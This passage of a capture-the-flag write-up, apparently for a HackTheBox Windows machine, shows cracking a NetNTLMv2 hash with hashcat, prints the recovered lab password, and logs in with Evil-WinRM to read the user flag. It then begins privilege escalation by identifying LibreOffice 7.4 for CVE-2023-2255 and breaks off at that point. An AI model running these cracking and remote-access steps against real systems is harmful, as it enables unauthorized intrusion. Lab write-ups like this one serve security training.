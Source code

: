 Note: Restart the machine if we dont get any response, it shouldnt take longer than 1 minute to get a response.

Now we can try to crack the hash:

```shell
# Copy the hash inside a text file and save it as maya_hash.txt
sudo gedit maya_hash.txt

# Use hashcat to crack it
hashcat -m 5600 maya_hash.txt /usr/share/wordlists/rockyou.txt
```

We were able to crack the hash successfully using hashcat:

```shell
# Password of maya
m4y4ngs4ri
```

### Access as the user maya using Evil-WinRM

Now we can use the credentials we got to get WinRM as maya:

```shell
evil-winrm -i http://10.129.134.249 -u maya -p 'm4y4ngs4ri'
```

```shell
*Evil-WinRM* PS C:\Users\maya\Documents> whoami
mailing\maya
```

### User Flag
Now we can get the user.txt flag:

```shell
type C:\Users\maya\Desktop\user.txt
```

# Privilege Escalation
### CVE-2023-2255 to add the user maya to local administrators group Administradores
Enumerating the files in the system, we found LibreOffice installed using the version 7.4:

```shell
type "C:\Program Files\LibreOffice\readmes\readme_es.txt"
```

Inside this readme file in spanish, we found information telling us about the version:

```shell
======================================================================

LÃ©ame de LibreOffice 7.4

======================================================================
```

